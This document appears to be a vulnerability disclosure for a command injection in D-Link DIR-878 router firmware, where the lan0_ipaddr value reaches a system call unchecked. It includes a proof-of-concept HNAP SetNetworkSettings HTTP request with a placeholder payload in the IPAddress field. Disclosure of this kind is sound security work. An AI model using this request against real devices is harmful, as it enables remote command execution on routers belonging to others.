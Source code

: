 ## DIR-878 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-878

### Affected version

D-Link DIR-878  FW1.20B05 and FW1.10B05 was found to contain a command injection in `lan_wan_ip_conflict_handler` of the component Web Interface `rc`, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](./img/1.png)

### Vulnerability details

Vulnerability occurs in `lan_wan_ip_conflict_handler`. Attackers can control `v11` by setting the `lan0_ipaddr` , then the program will pass `v11` to complete the system call without any check.

![2](.\img\2.png)

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `lan0_ipaddr`.

### PoC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 452
Accept: text/xml
HNAP_AUTH: 6EA57BC3825CEF9821DC8A2C46035271 1827139043216
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: text/xml
Origin: http://192.168.0.1
Referer: http://192.168.0.1/NetworkSettings.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=bgeGaHlw
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>payload</IPAddress>
	<SubnetMask></SubnetMask>
	<DeviceName></DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart></IPRangeStart>
	<IPRangeEnd></IPRangeEnd>
	<LeaseTime></LeaseTime>
	<Broadcast></Broadcast>
	<DNSRelay></DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

